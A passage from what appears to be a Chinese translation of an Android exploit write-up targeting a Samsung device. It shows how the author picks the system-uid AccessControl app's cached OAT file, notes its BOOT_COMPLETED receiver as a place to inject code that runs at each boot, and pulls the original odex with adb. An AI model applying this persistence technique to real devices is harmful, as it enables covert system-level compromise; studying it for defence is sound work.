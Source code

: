 实际上，我们需要找一个小的OAT文件，但想要安全的覆盖它几乎不可能。

这里比较完美的一个选择如下：

```
shell@klte:/ $ ls -al /data/dalvik-cache/arm/system@app@AccessControl@AccessControl.apk@classes.dex
-rw-r--r-- system   u0_a31000   176560 2015-10-30 15:40 system@app@AccessControl@AccessControl.apk@classes.dex

```

观察这个应用的manifest文件，发现它有自动运行的能力，它通过注册一个 BroadcastReceiver服务，监听android.intent.action.BOOT_COMPLETED事件来自动运行：

```
<manifest android:sharedUserId="android.uid.system" android:versionCode="1411172008" [...] xmlns:android="http://schemas.android.com/apk/res/android">
    <application android:debuggable="false" android:icon="@2130837507" android:label="@2131230720" android:supportsRtl="true" android:theme="@2131296256">
        [...]
        <receiver android:exported="false" android:name="com.samsung.android.app.accesscontrol.AccessControlReceiver">
            <intent-filter>
                <action android:name="android.intent.action.BOOT_COMPLETED" />
                <action android:name="com.samsung.android.app.accesscontrol.TOGGLE_MODE" />
            </intent-filter>
        </receiver>
        [...]
    </application>
</manifest>

```

因此，如果我们把我们自己的代码放在AccessControlReceiver类的onReceive()方法里，设备每次启动的时候我们的代码也会被执行。

下面让我们验证一下。

首先我们需要获得 AccessControl应用的原始代码：

```
> adb pull /system/app/AccessControl/arm/ .
pull: building file list...
pull: /system/app/AccessControl/arm/AccessControl.odex.xz -> ./AccessControl.odex.xz
pull: /system/app/AccessControl/arm/AccessControl.odex.art.xz -> ./AccessControl.odex.art.xz
2 files pulled. 0 files skipped.
273 KB/s (72428 bytes in 0.258s)
> ls
AccessControl.odex.art.xz  AccessControl.odex.xz
> xz -d *
> file *
AccessControl.odex:     ELF 32-bit LSB  shared object, ARM, EABI5 version 1 (GNU/Linux), dynamically linked, stripped
AccessControl.odex.art: data

```
